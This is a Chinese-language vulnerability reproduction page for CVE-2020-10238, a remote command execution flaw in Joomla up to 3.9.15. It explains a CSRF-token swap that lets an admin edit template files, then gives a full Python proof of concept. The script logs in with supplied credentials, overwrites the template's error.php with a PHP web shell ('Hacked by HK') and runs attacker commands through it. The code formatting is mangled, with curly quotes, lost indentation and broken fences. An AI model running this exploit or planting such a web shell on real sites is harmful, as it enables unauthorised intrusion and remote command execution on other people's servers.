




# （CVE-2020-10238）Joomal <= 3.9.15 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

<= 3.9.15

## 三、复现过程

```
http://www.0-sec.org/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ== 
```

使用admin进行登录



### 思路：

*   首先超级管理员跟管理员的后台界面是不同的
*   将恶意代码添加到index.php里面
*   使用管理员账户修改index.php，通过超级管理员进行index.php的文件编辑来获取到返回请求。



> 为了方便阅读，这里我们删掉index.php的内容，只保留shell


> 黄色部分为超级管理员的token，Joomal通过此令牌来防止csrf

这里我们先在burp里面保存此请求，先试用管理员账户进行登录，获取一下管理员账户的token。




> 如上图黄色部分为管理员的token，我们用管理员的token替换超级管理员的token，并且编辑url





### poc


```
#!/usr/bin/python
import sys
import requests
import re
import argparse

def extract_token(resp):

match = re.search(r’name="([a-f0-9]{32})" value=“1”’, resp.text, re.S)

if match is None:

print("[-] Cannot find CSRF token!\n") + “[-] You are not admin account!”

return None

return match.group(1)

def try_admin_login(sess,url,uname,upass):

admin_url = url+’/administrator/index.php’

print(’[+] Getting token for admin login’)

resp = sess.get(admin_url, verify=True)

token = extract_token(resp)

# print token

if not token:

return False

print(’[+] Logging in to admin’)

data = {

‘username’: uname,

‘passwd’: upass,

‘task’: ‘login’,

token: ‘1’

}

resp = sess.post(admin_url, data=data, verify=True)

if ‘task=profile.edit’ not in resp.text:

print(’[!] Admin Login Failure!’)

return None

print(’[+] Admin Login Successfully!’)

return True

def rce(sess,url,cmd):

getjs = url + ‘/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D’

resp = sess.get(getjs, verify=True)

token = extract_token(resp)

if (token==None) : sys.exit()

filename=‘error.php’

shlink = url + ‘/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D’

shdata_up = {

‘jform[source]’: “<?php echo ‘Hacked by HK\n’ ;system($_GET[‘cmd’]); ?>”,

‘task’: ‘template.apply’,

token: ‘1’,

‘jform[extension_id]’: ‘506’,

‘jform[filename]’: ‘/’ + filename

}

shreq = sess.post(shlink, data=shdata_up)

path2shell = ‘/templates/protostar/error.php?cmd=’+cmd

# print '[+] Shell is ready to use: ’ + str(path2shell)

print ‘[+] Checking:’

shreq = sess.get(url + path2shell)

shresp = shreq.text

print shresp + ‘[+] Shell link: \n’ + (url + path2shell)

print ‘[+] Module finished.’

def main() :

```
# Construct the argument parser
ap = argparse.ArgumentParser()
# Add the arguments to the parser
ap.add_argument("-url", "--url", required=True,
				help=" URL for your Joomla target")
ap.add_argument("-u", "--username", required=True,
				help="username")
ap.add_argument("-p", "--password", required=True,
				help="password")
ap.add_argument("-cmd", "--command", default="whoami",
				help="command")
args = vars(ap.parse_args())
# target
url = format(str(args['url']))
print '[+] Your target: ' + url
# username
uname = format(str(args['username']))
# password
upass = format(str(args['password']))
# command
command = format(str(args['command']))

sess = requests.Session()
if(try_admin_login(sess,url,uname,upass) == None) : sys.exit()
rce(sess,url,command) 
``` `if **name** == “**main**”:

sys.exit(main())` 
```

## 参考链接

> https://github.com/HoangKien1020/CVE-2020-10238/tree/master/CVE-2020-10238